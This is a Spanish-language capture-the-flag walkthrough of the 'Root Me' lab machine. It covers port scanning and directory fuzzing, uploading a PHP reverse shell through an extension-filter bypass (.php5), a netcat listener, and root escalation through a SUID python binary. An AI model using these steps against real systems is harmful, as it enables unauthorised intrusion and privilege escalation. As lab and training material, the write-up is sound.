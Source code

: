 # Root Me

## Scanning

```shell
sudo nmap -sS -p- --min-rate 5000 -vvv --open -n -Pn 10.10.241.191 -oG allports
nmap -sC -sV -p 22,80 10.10.241.191 -oN targeted
```

![0818231123](0818231123.png)

## 80

### Wfuzz

```bash
wfuzz -c --hc 404,403 -w /usr/share/wordlists/dirb/common.txt -t 100 -u 'http://10.10.241.191/FUZZ'
```

![0818231117](0818231117.png)

**http://10.10.241.191/panel/**

![0818231154](0818231154.png)

Subimos una reverse shell en php

```bash
locate shell.php
cp /usr/share/webshells/php/php-reverse-shell.php .
nano php-reverse-shell.php
```

![0818231138](0818231138.png)

Modificamos la IP, el puerto y la shell colocamos bash

No nos permite subir archivos php así que probamos con algunas de las extensiones comunes ***php*, *.php2*, *.php3*, .*php4*, .*php5*, .*php6*, .*php7*, .phps, .*phps*, .*pht*, .*phtm, .phtml*, .*pgif*, *.shtml, .htaccess.** Funciona con php5

Así que nos ponemos en escucha en el puerto 4444 con netcat.

```shell
nc -lvp 4444
```

![0818231157](0818231157.png)

## Privilege Scalation

Buscamos archivos con SUID.

```shell
find / -perm -u=s 2>/dev/null
```



![0818231110](0818231110.png)

Podemos usar python para escalar privilegios con el SUID

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

![0818231146](0818231146.png)

